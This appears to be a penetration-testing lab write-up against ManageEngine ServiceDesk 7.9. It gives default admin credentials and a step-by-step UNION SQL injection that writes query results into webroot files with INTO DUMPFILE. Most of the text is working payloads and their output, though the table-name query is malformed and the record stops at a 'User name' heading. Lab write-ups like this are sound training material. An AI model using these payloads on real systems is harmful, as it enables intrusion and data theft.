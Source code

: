 ```bash
```

# Exploit
```bash
firefox http://192.168.107.43:8080
# administrator:administrator
```

### ManageEngine 7.9 SQL injection
The code below copies the exploit information for a possible vulnerability. The exploit is a SQL injection attack. 
```bash
searchsploit -m 11793
firefox http://192.168.208.43:8080 + SQLi
firefox http://192.168.208.43:8080/images/ + filename_from_SQLi
```

First, I started Burp Suite and configured my browser to sent all web requests to it. Then, I browsed to `http://192.168.208.43:8080/WorkOrder.do?woMode=viewWO&WorkOrder.WORKORDERID=1` and sent the request captured to Repeater. Using Repeater, I replaced the POST request with the SQL queries below. I enumerated the number of columns for the impacted table. 
```bash
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20ORDER%20BY%201/*
# output
# No error

/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20ORDER%20BY%2021/*
# output
# Error...meaning there are 20 columns in the impacted table. The exploit uses column 9 to stuff data. 

/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20/*
# output (a.k.a junk, use to delineate baseline text from extracted data)
# 1301316242931519120-100Test�������51-11234567811121314151617181920 

# MySQL version
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,concat("---",@@version,"---")%20INTO%20DUMPFILE%20'C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\version.html'/*
# output
# 4.1.18-pro-nt10

# Database name
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,concat("---",database(),"---")%20INTO%20DUMPFILE%20'C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\database.html'/*
# output
# servicedesk

# Table names
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,concat("---",(SHOW%20tables),"---")%20FROM%20information_schema.columns%20INTO%20DUMPFILE%20'C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\tables.html'/*
# output
# 


# User name
```